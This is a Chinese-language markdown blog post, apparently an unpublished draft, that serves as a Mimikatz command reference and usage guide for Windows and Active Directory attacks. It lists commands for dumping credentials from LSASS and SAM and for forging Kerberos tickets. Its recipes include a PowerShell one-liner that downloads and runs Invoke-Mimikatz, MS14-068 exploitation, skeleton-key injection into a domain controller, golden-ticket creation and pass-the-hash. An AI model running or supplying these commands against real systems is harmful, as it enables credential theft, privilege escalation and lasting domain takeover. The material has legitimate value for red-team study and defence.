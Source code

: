 ```yaml
---
published: false
---
```



# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

------------------------------


`CLS`---------------------------- 清屏
`CRYPTO::CERTIFICATES` –--------- 列出/导出凭证
`EXIT`--------------------------- 退出
`KERBEROS::GOLDEN` –------------- 创建黄金票证/白银票证/信任票证
`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。
`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。
`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。
`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”
`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。
`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。
`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。
`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。
`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。
`NOGPO::CMD`--------------------- 打开系统的CMD.EXE
`NOGPO::REGEDIT` ---------------- 打开系统的注册表
`NOGPO::TASKMGR`----------------- 打开任务管理器
`PROCESS::LIST`------------------ 列出进程
`PROCESS::SUSPEND 进程名称` ------ 暂停进程
`PROCESS::STOP 进程名称`---------- 结束进程
`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置
`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。
`PRIVILEGE::LIST`---------------- 列出权限列表
`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限
`SYSTEM::USER`------------------- 查看当前登录的系统用户
`SYSTEM::COMPUTER`--------------- 查看计算机名称
`SERVICE::LIST`------------------ 列出系统的服务
`SERVICE::REMOVE`---------------- 移除系统的服务
`SERVICE::START STOP 服务名称`---- 启动或停止服务
`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码
`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码
`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥
`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）
`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据
`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关的 KEY(S)）
`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。
`TS::SESSIONS`------------------- 显示当前的会话
`TS::PROCESSES`------------------ 显示进程和对应的PID情况等
`TOKEN::LIST` –------------------ 列出系统中的所有令牌
`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)
